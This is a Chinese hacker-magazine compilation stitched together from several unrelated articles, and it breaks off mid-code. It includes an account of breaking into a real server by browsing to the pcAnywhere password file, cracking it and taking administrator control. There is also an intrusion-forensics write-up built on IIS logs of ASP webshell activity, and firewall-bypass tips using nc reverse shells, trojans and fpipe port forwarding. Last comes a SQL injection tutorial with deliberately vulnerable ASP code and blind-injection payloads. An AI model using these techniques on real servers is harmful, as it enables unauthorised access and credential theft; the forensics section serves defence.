或者（URL 编码形式）：

```text
http://www.xxx.com/music/a.asp?path=C:\Documents%20and%20Settings\All%20Users\Application%20Data\Symantec\pcAnywhere&ib=true
```

回车以后，结果如图 4。哈哈！怎么样？不能浏览到 C 盘没关系，我们可以直接跳转到这个目录。你不要以为不能浏览到 C 盘就说明 C 盘下什么目录都不可以浏览。`C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\` 目录就是一个很好的例子。浏览到以后，直接下载 `PCA.gual8en.CIF` 这个文件，然后用流光破解一下可以拿到密码（图 5）。

破解后我们就已经获得了这个主机的 administrator 权限。接下来输入破解到的用户名、密码，用 pcAnywhere 控制端连接（图 6）。

之后有两种选择：
- 1. 等管理员上来，然后你控制（比较危险）。
- 2. 你试验一下 pcAnywhere 破解的密码是否和主机管理员密码一致。如果一致还等什么？我这台就是一样的密码。我直接登录到了主机上（图 7）。

我比较幸运！不过很多管理员的密码都是一致的。就算不一致，你在登录界面上已经可以随意重新启动主机了。渗透到这里如果再继续下去就无任何意义了。最近雪蓝蓝也碰到一台和我这台一样设置的主机，也是用这个办法搞到的 administrator。

# 一个人的战争

### 小结

以上提升权限过程的分析：

这台主机被我成功提权，提升权限主要是因为管理员太相信 NTFS 格式对 C 盘的权限设置了。他认为 user 或者 guest 权限组对 C 盘不可以浏览，就会对 C 盘下所有目录都不可以浏览。其实不是这样的，不相信我们看一下 `C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere` 这个目录的设置情况。user 用户可以对这个文件夹读取、运行、列出文件和目录。

我最鄙视这样的人。pcAnywhere 密码文件在这个文件夹很多人都知道。但在你浏览不到任何目录的情况下，你会想到直接跳转到 `C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\` 这个目录吗？其他我就不多说了。

在 NTFS 默认权限下实现提升权限不是很难，方法除我介绍的相信还有 N 多种。但是像文章第二段的非默认情况下提升权限，我只会写出来这一种办法，就是跳转目录。当然能跳转到的目录还有很多，比如 `/inetpub/`，但是好像跳转到了也没有什么用处。幸好现在安装 pcAnywhere 的主机特别多，一般都可以用我这个办法成功提升权限。

在这里我也希望广大读者在渗透行动陷入僵局的时候多动脑筋，不要只想别人已经公布的方法，要自己独立思考，这样才会发现更多的思路。在这里我也要提醒广大管理员要充分利用好 NTFS 的优越性，不要让别人有空子可钻。小问题也会导致严重后果，我想刚才我提升权限那个主机的管理员做梦都不会想到服务器会这么被入侵：）

以上提到的这个方法和思路只是我无意中发现的。相信许多“牛人”看完以后又会说了：“就这个啊？我 N 年以前就会”。

## 痛定思痛之入侵分析篇

LoveLyy

现在已经有不少的文章教人如何入侵，这样就培养了一大批入侵者，成天无所事事，拿着扫描器对着网络狂扫。本人自认为有着几年的网络安全的经验，还算是比较熟悉一般入侵者的伎俩，所以对我所掌管的服务器，也自认安全。但是，终于一次，服务器还是被入侵了……

一日上午，老师打电话来说学院的网页有问题了。我立即登录 3389 进入服务器查看（这时我才想起，我已经有超过一个星期没上服务器检查了）。从终端登录后，我首先检查了 IIS 信息服务，发现一切正常。我又检查了 `index.asp` 这个首页文件，发现首页已经被人更改了，此文件“最后的修改时间”变成了 12 月 23 日。立即意识到服务器被人入侵了。痛定思痛，决定分析入侵过程，试图找出入侵者。

首先说说服务器上的安全配置以及运行情况。服务器上系统为 Win2k Server + sp4，所有补丁已经打上。开启了 IIS 服务、3389 服务（不过端口我已经更改了）、FTP 服务（利用 Serv-U 开启的）。默认的 Server 服务、远程注册表服务等也被禁用。服务器上运行了杀毒软件，此杀毒软件受学校的病毒服务器控制，能够自动更新病毒库。服务器上三个分区均为 NTFS 类型，但是我对每个分区却并未设置权限，每个区均为 Everyone 全部控制。基本情况就是这些，现在应该开始检查服务器了，找出入侵者留下的后门程序、帐户等等。

### 一、检查服务器

#### 1. 检查端口

首先利用程序 Active Ports 来检查是否被入侵者留下了后门。Active Ports 可以查看当前所打开的端口以及打开端口的程序，就像大家经常使用的命令行下的 fports 一样。从检查结果可以看出，并没有可疑的端口被开启。当然要想判断是否有可疑端口，你需要对系统常用端口有所了解。

### 2. 检查帐户

| 名称 | 全名 | 描述 |
|---|---|---|
| Guest | | 供来宾访问计算机或访问网络的内置帐户 |
| IUSR_SHADOW... | Internet 来宾帐号 | 匿名访问 Internet 信息服务的内置帐户 |
| IWAM_SHADOW... | 启动 IIS 进程帐号 | 启动进程之外的应用程序的 Internet 信息服务的内置帐户 |
| IX_Admin | | 空间计划(虚拟)的内置帐户 |
| TsInternetUser | TsInternetUser | 这个用户账户被终端服务所使用。 |
| VUSR_SHADOW... | VSA Server Account | Visual Studio Analyzer 服务器组件的帐号 |

另一个是在看注册表判断是否被人克隆了帐户。首先打开“控制面板→管理工具→计算机管理”，看看帐户管理器的信息。

从检查结果可以看出系统并没有异常帐户，禁用的用户也没有被激活，而帐户管理器也没有出错，所以 SAM 应该没什么问题。可能大家会奇怪为什么没有 administrator 这个帐户？在这里，IX_Admin 就是 administrator 改名后的帐户。这样可以避免暴力破解帐户的隐患。

接下来看注册表。其实查看注册表才是彻底检测帐户的方法。因为帐户管理器的信息也是从注册表中得到的。我们要访问的是注册表中的 SAM 键值，但是要访问此键值需要 SYSTEM 的权限，即使是 Administrator 的权限也不行。因此我们要用 regedt32 来调整权限操作值。在“运行”中输入“regedt32”。

我们要更改的是 `HKEY_LOCAL_MACHINE\SAM`，我们给 Administrator 用户完全控制的权力。这样 Administrator 已经可以对 SAM 读取了。从注册表中列出的帐户名跟帐户管理器中列出的帐户名一致，因此可以认为帐户正常。

接下来我们要检查是否有克隆用户存在。我们要比对 administrator 和 guest 的 F 值是否相同。administrator(0x1f4) 的 F 值与 Guest(0x1f5) 的 F 值通过对比发现，两帐户 F 值并不相同。说明 Guest 用户并没有被克隆成 Administrator 用户。然后依照同样的方法对比 V 值，再对比其它所有用户跟 administrator 的 F 和 V 值，我并未发现有克隆帐户。

#### 3. 检查服务、进程、文件

要查找可疑的服务，同样你需要对系统默认服务相当清楚。在“管理工具→服务”中可以查看所有的服务情况。通过分析，也未发现可疑服务。同理，对于检查进程，你也需要对系统进程有所了解（对于一个管理员来说，这是你的职责）。检查文件要麻烦一点，这里有一点小小的技巧，就是利用“按时间排列选项”排列文件，这样能很快捷地发现是否有文件被修改或创建。经过检查我发现入侵者在服务器上的 WWWROOT 目录创建了一个目录 `cafik`，目录里的内容稍后分析。（此处发现了这个目录，我立即保存在另一个地方，以防止被人为删除）

#### 4. 查看事件管理器

对于事件管理器（控制面板→管理工具→事件管理器）的安全日志默认是不会有任何日志的，只有当用户指定了某个审核才会有记录。在服务器上我只审核了帐户登录出错的信息，因此从这里我并没有得到入侵者的痕迹。推荐大家尽量对审核详尽一点，不过此时要注意将日志文件大小调大一点。

## 三、查找入侵者的脚印

从上面的检测情况可以看出以及服务自身的配置（打好了补丁），入侵者没有加管理员，也没有运行后门程序。很明显，文件被更改不是被溢出得到的 SHELL 再改的，因此我把入侵者能够更改文件的间隙锁定在了 WEB 方面。我猜想，他应该是通过 WEB 来进行入侵的，这样 IIS 的日志文件就显得异常重要。

立即动手分析 `cafik` 下目录的所有内容。其下包括两个 ASP 文件（`board.asp` 和 `xp.asp`），我用记事本打开后发现他是一个类似海阳顶端 ASP 木马的一个 ASP 木马，不过此文件并没有被杀毒软件查杀。另有一个 `qq.exe` 文件被杀毒软件隔离了，因此不必担心他的作用。另有一个目录 `hum`，经分析得出是 3389 终端服务的网页服务形式。另有 `rar.exe` 一个，这是命令行下的 RAR。一个 `ts.exe`，这是一个自解压压缩包，解压后就是 3389 终端服务的网页服务的实现文件。从入侵者放上的文件可以得出，他最有可能利用的文件就是 `xp.asp` 和 `board.asp`，因此入侵者应该留下不少的脚印在 IIS 的日志里。

于是立即分析了 IIS 的日志文件（`%systemroot%\LogFiles\W3SVC1`），注意此处的 w3svc1 是不一定的。在你的服务器上可能是 w3svc2 或 w3svc3 等等。IIS 的日志文件是用年月日作为文件名的，我找到被入侵的前后一个星期的文件，查找“cafik”，得到不少信息，如下：

```text
2003-12-22 09:36:20 218.8.24.21x - 202.115.xx.10 80 GET /cafik/board.asp - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```

IIS 日志默认的格式为：日期 客户端 IP 服务端 IP 端口 请求方式 路径 返回代码。从上面可以得到 218.8.24.217 请求了这个文件，返回 200 成功的代码，因此我有理由记录下这个 IP。继续查找，还找到了更多的信息：

```text
2003-12-22 09:36:30 218.8.24.21x - 202.115.xx.10 80 GET /cafik/board.asp UserName=cafik 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
2003-12-22 10:38:33 218.8.24.21x - 202.115.xx.10 80 GET /cafik/hum/index.asp - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```

从 IIS 的日志中，我发现请求了 `cafik` 目录的 IP 是不定的，一共有以下几个：
`218.8.24.21x, 218.8.44.23x, 218.9.116.9x, 218.9.116.22x, 218.9.199.3x, 218.8.71.9x`

而且从 IE 提交的 User-Agent 大概可以知道此用户的系统是 WinXP，IE6.0。确认入侵者 IP 后，我立即保存了 IIS 日志文件以作备份。进一步就是要找到系统的漏洞，了解入侵者是如何入侵的。

### 三、分析入侵者的入侵方式

从上面的分析已经大致了解入侵者应该是通过 WEB 方式入侵的。因此立刻想到了 ASP 的安全问题。服务器上运行了学院的网页，而我把自己的个人主页放在了学院的一个目录下，我的个人主页设置了管理员可以上传任何文件。所有 ASP 文件均是我独立自主开发的，因此他是不可能通过知道 mdb 文件的下载路径得到管理员密码。在管理员身份判断上，对于 SQL Injection 我也知道不少，因此文件基本不会有漏洞。郁闷！那他怎么知道密码的呢？还是要靠 IIS 的日志帮忙。

经过一番查找，我找到了足够多的信息：

```text
2003-12-21 03:05:11 218.9.116.9x - 202.115.xx.10 80 GET /jl/login.asp - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```
从上面可以知道入侵者在请求我的管理员登录页面了。

```text
2003-12-21 02:28:11 218.9.116.9x - 202.115.xx.10 80 GET /jl/login.asp - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
2003-12-21 02:29:04 218.9.116.9x - 202.115.xx.10 80 GET /jl/logfile.htm - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```
从上面两个记录可以看到，入侵者先尝试登录，可能是失败了，于是立即查看登录记录。于是我推断入侵者是通过 `logfile.htm` 得到管理员密码的。`logfile.htm` 是记录管理员登录出错的文件，格式是“IP－用户名－密码”。因为 logfile 记录下了我以前不小心输入的错误密码，离我的真实密码差不了多远，这就让入侵者有了非常有用的信息。

```text
2003-12-21 03:19:02 218.9.116.9x - 202.115.70.xx 80 GET /jl/admin_admin.asp - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
2003-12-21 03:19:02 218.9.116.9x - 202.115.xx.10 80 GET /jl/admin_left.asp - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
2003-12-21 03:19:03 218.9.116.9x - 202.115.xx.10 80 GET /jl/admin_main.asp - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```
居然进入了我的管理员页面！这样他拥有了上传任何文件的权限。

```text
2003-12-21 03:21:35 218.9.116.9x - 202.115.xx.10 80 POST /jl/uploadsave.asp - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```
他在上传文件了。

```text
2003-12-21 03:21:59 218.9.116.9x - 202.115.xx.10 80 GET /jl/upload/20031221112135.asp - 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```
已经在请求他所上传的文件了。一猜就知道是一个 ASP 后门。

```text
2003-12-21 03:27:24 218.9.116.9x - 202.115.xx.10 80 POST /jl/upload/20031221112135.asp id=edit&path=/jl/ip.asp&attrib= 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```
从 `id=edit&path=/jl/ip.asp` 可看出，入侵者在用这个 ASP 木马修改我的 `ip.asp` 文件。

```text
2003-12-21 03:28:33 218.9.116.9x - 202.115.xx.10 80 GET /jl/upload/20031221112135.asp id=edit&path=/jl/logfile.htm&attrib= 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```
又修改了我的 `logfile.htm`，这是记录管理员登录出错的文件。难怪我在 logfile 里找不到他登录的信息，原来被他改了。

```text
2003-12-21 03:46:00 218.9.116.9x - 202.115.xx.10 80 GET /jl/upload/20031221112135.asp id=edit&attrib=&creat=yes&path=/cafik 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)

2003-12-21 03:47:47 218.9.116.9x - 202.115.xx.10 80 GET /jl/upload/20031221112135.asp id=edit&path=/jl/upload/20031221112135.asp&op=copy&attrib=&dpath=/cafik/board.asp 200 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1)
```
上面两个信息依次为入侵者创建 `cafik` 目录以及把上传的 ASP 文件拷贝到 `cafik` 里。

这下问题明朗了，问题全出在上传的 ASP 文件。但我还是很佩服他，居然用输错的密码猜到了我的真实密码。总结一下他入侵的方式：先是从 logfile 里面得到有用信息，从而推断出真实密码，然后登录后台上传 ASP 木马，最后利用木马修改了包括首页在内的几个文件。

知道了入侵方式，我立即更正了 logfile，加上了身份验证，修改了管理员密码，更改了 mdb 数据库文件名，并删除了入侵者上传的文件。完成后，我继续等待入侵者的到来……

```text
2003-12-27 09:30:48 218.9.116.22x - 202.115.xx.10 80
```

# 一个人的战争

细心的读者可能看出来了，我在上传 ftp 的时候没给密码，其实不然，nc 反向连接的最大弱点就在于此。ftp 的密码必须在反向连接的那个 shell 里输，否则登录不上。

**（2）反向连接木马**

反向连接木马则是这几种方法中最简单的了，只要上传执行就可以了，介绍这类木马的文章甚多，我在这里就不啰嗦了，大家可以参见以前的《黑客 X 档案》。这类木马最大的好处就是使用起来简单，功能强大，最大的弱点就是会被杀毒软件查杀。

**（3）端口重定向**

端口重定向是所有方法中最能满足我们需求的，但是它有一个较大的弱点，必须控制住主机上的某一个服务，然后将你想要映射的端口映射出来（如 3389），然后再做进一步处理。在停止对方服务的时候应该尽可能选择那些很少用到的（当然首先是防火墙开放的端口），然后再用端口重定向软件将别的端口映射过来。这里我们使用 fpipe 来进行重定向。输入 `fpipe -l 1433 -s 1433 -r 3389 ip` 表示 fpipe 监听 1433 端口，`-r 3389` 表示把数据转发到 3389 端口，IP 则是需转发的端口所绑定的 IP，如图 8 所示。

这种方法要以牺牲对方的服务为代价，故比较容易暴露，不到万不得已不要随便使用。

以上就是我在平时学习中所整理出来的几种穿越防火墙的方法，限于自身水平有限，如果有什么不对的地方还请大家来黑客 X 档案论坛指出。



图 8

（文中涉及的软件海阳顶端网 asp 木马 2004 版、nc.exe、fpipe.exe 已收录在光盘中。）

今天给大家讲讲关于 asp 漏洞的初级知识，老鸟可以略过此文啦！

## 一、著名 `or'1='1` 漏洞重现

相信大多数人学习 ASP SQL 注射都是从 “1' or '1'='1” 这个漏洞开始的，但是我在网上从来没有用这个漏洞成功过，可能是我知道得太晚了（笑，总是慢人家一拍）。

那么与我一样从来没有用这个漏洞成功过的菜鸟就在本机上试验一次吧，也多了一个学习的机会。我把 asp 文件放在 D:\wwwroot 目录下，同目录下有一个数据库文件为 “user.mdb”，数据库中有一 “user” 表，表中两个字段，分别是 “user” 和 “pass”，对应的有一个帐号为 “009”，密码为 “chinese”（图 1）。



图 1

准备工作做完了，我们开始写代码，重现一下这个漏洞，代码如下，先是 “a.asp”：

```html
<form action=b.asp method=get>
    以 get 方式提交表单到 b.asp 文件，一般这里也可用 post（get 方式最多提交 1024 个字节的内容），
    这样用户看不到提交的数据
    帐号：009<br>
    密码：<input type=text size=30 name=pass>
    <input type=submit value=submit>
</form>
```

再来写一个 b.asp，代码如下：

```asp
<%
' 从这里开始连接数据库
'on error resume next    ' 忽略错误，调试的时候常用
mdbfile=server.mappath("user.mdb")
set conn=server.createobject("adodb.connection")
' 定义 conn 变量
conn.open "driver={microsoft access driver (*.mdb)};uid=;pwd=;dbq="&mdbfile    ' 数据库没有密码
%>

<%
sql="select * from user"    ' 定义数据库操作的字符串 sql 为选择 user 表中的所有内容
set rs=conn.execute(sql)    ' 执行这个操作，现在指针指向第一组数据
response.write "数据库中的帐号："&rs.Fields("user")    ' rs.Fields("user") 为显示这组数据中的帐号
%>
<br>数据库中密码：<%=rs.fields("pass")%><br>
提交的变态 pass 为：<font color=red><%=request("pass")%></font><br>
<p>
<%
sql2="select * from user where user='009' and pass='"&request("pass")&"'"
set rs2=conn.execute(sql2)
%>
<br>
<%if rs2.eof then%>    ' 判断指针是否到了数据的结尾
    <font color=blue><%="失败"%></font>
<%else%>
    <font color=red><%="成功"%></font>
<%end if%>
<br>
<%="执行语句为："&sql2%>

<%
' 关闭记录集合和 sql 的连接，这样可以释放不用的内存空间
rs.close
set rs=nothing
rs2.close
set rs2=nothing
conn.close
set conn=nothing
%>
```



OK，代码完工。浏览 http://127.0.0.1/a.asp，然后随便输入，显示错误，输入“chinese”显示成功。这里我们试试嵌入 `1' or '1'='1` 提交后，显示资料中的成功。我们看一下执行的语句，正常的是：`select * from user where user='009' and pass='chinese'`，提交了特殊的参数后变成 `select * from user where user='009' and pass='1' or '1'='1'`，一个“or”就屏蔽了其它的“and”，只要后面的为真，那么整个语句就为真。

我们还可以这样，输入 `aaa' or 'bbb'<> 'ccc`，同样显示成功，执行语句为：`select * from user where user='009' and pass='aaa' or 'bbb'<>'ccc'`，不难理解这句话中，“bbb”永远不等于“ccc”。总之，只要“or”后面的条件为真就可以。差点忘了还有一点要注意，如果程序员在编辑的时候，`sql2` 那句这样写：`sql2="select * from user where id="&request("id")`，那么，我们提交的变量就得做一些相应的变化，“id”应提交的值为：`1 or 1=1`，这时候的“1”是一个值，不是字符串了，而上面的用单引号括起来的则是字符串。总之，要把单引号、双引号的配对工作做好。

## 二、变量过滤不足漏洞重现

基本上来说，asp 漏洞主要是程序对用户提交的变量过滤不足造成的，类似如下的语句，肯定是存在问题的：

```asp
sql="select * from user where id="&request("id")
set rs=conn.execute(sql)
```

仍然用刚才的 b.asp 做试验，一看就知道 sql 语句中的那个 `request("pass")` 变量没有经过严格地过滤，把用户提交的变量直接用于执行数据库操作是十分危险的。

如果我们有心的用户提交了精心构造的“pass”变量为：`1' or len(pass)=7 and '1'='1`，实际数据库操作的指令是：`select * from user where user='009' and pass='1' or len(pass)=7 and '1'='1'`，意思是猜测这位 id 为 1 的用户的密码长度是否是 7 位，后面的 `and '1'='1'` 是为了配对最后一个单引号加上的，只要真正的密码不是“1”，你就可以根据返回的信息判断密码长度，如果成功访问到页面，说明猜测正确（图 2），否则错误。



然后再利用“left”、“right”、“mid”函数一位一位地猜测密码，例如提交的“pass”为：`1' or left(pass,1)='c' and '1'='1`，意思是猜测密码的最左边一位是否为字符“c”（图 3）。



同样，如果编程者的那句“sql”这样写：`sql2="select * from user where user='009' and pass="&request("pass")`（不使用单引号方式），变量应改为：`1 or left(pass,1)='c'`。这种情况下，如果程序屏蔽了“'”的话（如 `replace(request("pass"),"'","")`），还可用“chr”函数，上面的变量就可以这样提交：`1 or left(pass,1)=chr(99)`（图 4）。



字符“c”的 ASCII 码为 99，“chr(99)”就相当于字符“c”。我的经验是：只要不在引号里面，就可以用“chr”函数，否则程序就会把它当成字符串。

可以用“select”猜测用户密码，同样的方法，还可以用“update”修改数据库的内容。一般“update”常见的测试点是程序对用户提交的数据和当前的用户校验，还是举个例子比较直观。数据库改成如图 5。



编写如下两个文件：

**c.asp**
```html
<form action=d.asp method=get>
    输入新密码：<input type=text size=30 name=newpass>
    <input type=hidden name=id value=1>
    <input type=submit value=submit>
</form>
```

**d.asp**
```asp
<%
on error resume next
mdbfile=server.mappath("user.mdb")
set conn=server.createobject("adodb.connection")
conn.open "driver={microsoft access driver (*.mdb)};uid=;pwd=;dbq="&mdbfile
%>

<%
sql="select * from user"
set rs=conn.execute(sql)
Do while not rs.eof
response.write "数据库修改前帐号："&rs.Fields("user")
%>
<br>数据库修改前密码：<%=rs.fields("pass")%><br>
<%rs.movenext%>
<%loop%>
